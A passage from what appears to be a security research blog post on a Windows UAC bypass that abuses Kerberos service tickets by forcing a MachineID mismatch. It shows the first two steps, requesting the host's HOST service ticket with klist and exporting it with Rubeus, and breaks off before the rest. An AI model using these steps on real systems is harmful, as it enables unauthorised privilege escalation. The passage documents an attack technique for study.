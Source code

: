 By now, you probably have some understanding. If you have authenticated as a domain user, the simplest way to abuse the system is to make the MachineID check fail. The value of the global variable `LsapGlobalMachineID` is a random value generated by LSASS during computer startup.

### Restart Server

One method is to generate a KRB-CRED format of the service ticket for the local system and save it to disk. Then, restart the system to reinitialize `LsapGlobalMachineID`, and upon returning to the system, reload the previously saved ticket. At this point, the ticket will have a different MachineID, and Kerberos will ignore the restrictions such as `KERB_AUTH_DATA_TOKEN_RESTRICTIONS`, as described in the Microsoft official documentation. You can use the built-in `klist` command in Windows along with the Rubeus toolkit to accomplish this.

(1) First, use the `klist` command to obtain the ticket for the local server's HOST service:

```console
klist get HOST/$env:COMPUTERNAME
```

![image-20230727160302124](/assets/posts/2023-07-29-revisiting-a-uac-bypass-by-abusing-kerberos-tickets/image-20230727160302124.png)

(2) Use Rubeus to export the requested service ticket:

```console
Rubeus.exe dump /server:$env:COMPUTERNAME /nowrap
```

